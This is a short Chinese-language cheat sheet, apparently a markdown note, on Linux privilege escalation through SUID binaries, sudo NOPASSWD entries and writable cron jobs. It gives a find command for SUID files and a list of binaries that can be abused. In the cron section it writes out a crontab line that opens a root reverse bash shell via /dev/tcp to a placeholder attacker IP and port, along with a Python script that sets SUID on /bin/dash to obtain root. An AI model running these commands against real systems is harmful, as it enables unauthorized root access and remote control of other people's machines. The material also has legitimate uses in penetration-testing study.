

1. suid提权
- 前提有suid权限
```
find / -user root -perm -4000 -print 2>/dev/null
```
查看有suid提权漏洞的文件，目前已知的可用来提权的linux可行性文件列表如下
```
Nmap
Vim
find
Bash
More
Less
Nano
cp
```
2. sudo提权
- 前提是sudo有suid权限，并且sudo -l里面拥有nopasswd
```
teehee
nmap
```


3. 定时任务提权
- 前提/etc/crontab拥有普通用户写入权限，或者使用sudo提权或者suid提权可以进行写入的进行写入



- 情况1

普通用户具有/etc/crontab的写入权限，直接写入root身份反弹bash
```
* * * * * root bash -i >& /dev/tcp/攻击机ip/端口 0>&1
```

- 情况2

普通用户不具有/etc/crontab的写入权限，但是定时任务里面的某个定时执行的文件具有root权限执行，比如
```
*/1 * * * * root /tmp/a.py
```

如果我们可以修改这个文件，那么就可以用来提权
```python
#!/usr/bin/env python
import os
import sys

try:
    os.system('chmod u+s /bin/dash')
except:
    sys.exit()
```
一分钟后就设置了/bin/dash的suid权限，运行完成后就获取了root权限